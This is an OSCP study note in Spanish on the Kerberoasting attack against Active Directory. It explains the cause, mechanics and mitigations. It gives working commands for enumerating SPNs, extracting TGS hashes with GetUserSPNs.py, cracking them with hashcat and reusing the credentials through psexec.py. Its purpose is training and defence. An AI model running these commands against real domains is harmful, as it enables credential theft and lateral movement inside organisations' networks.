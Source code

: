 # Análisis Profundo de Ataques AD para OSCP

## 1. KERBEROASTING

### ¿Por qué ocurre?
- **Causa raíz:** Servicios configurados con cuentas de usuario normales en lugar de Managed Service Accounts (MSAs) o Group Managed Service Accounts (gMSAs)
- **Problema:** Los TGS (Ticket Granting Service) están cifrados con el hash de la contraseña de la cuenta de servicio
- **Contexto administrativo:** Administradores que priorizan facilidad sobre seguridad al configurar servicios

### Mecánica del ataque
1. **Requisito:** Cualquier usuario autenticado en el dominio
2. **Petición:** Solicitar TGS para servicios con SPN registrado
3. **Extracción:** Obtener ticket cifrado con hash crackeable
4. **Offline:** Crackeo sin detección directa

### Sistemas afectados
- **Todos los Domain Controllers** (proveedores de tickets)
- **Servidores con servicios** (SQL, IIS, Exchange, etc.)
- **Entornos modernos:** Totalmente funcional en Windows Server 2022

### Detección y Explotación
**Localización:**
```bash
# Con credenciales
GetUserSPNs.py -request dominio.com/usuario:password -dc-ip IP_DC

# Sin credenciales (solo enumeración)
nmap -p 88 --script krb5-enum-users <DC_IP>

# PowerView
Get-DomainUser -SPN -Properties SAMAccountName,ServicePrincipalName
```

**Explotación:**
```bash
# 1. Extraer hashes
GetUserSPNs.py -request -dc-ip 10.10.10.1 dominio.com/jdoe:Password123

# 2. Formatear para crackeo
hashcat -m 13100 hashes.txt rockyou.txt

# 3. Usar credenciales crackeadas
psexec.py dominio.com/svc_sql:Password123@10.10.10.10
```

### Prevención/Mitigación
- **Usar gMSAs/MSAs** para servicios
- **Contraseñas complejas** (>25 caracteres) para cuentas de servicio
- **Monitorear:** Eventos 4769 (TGS requested) con encryption type 0x17
- **Auditar:** Cuentas con SPN y verificar que sean gMSAs
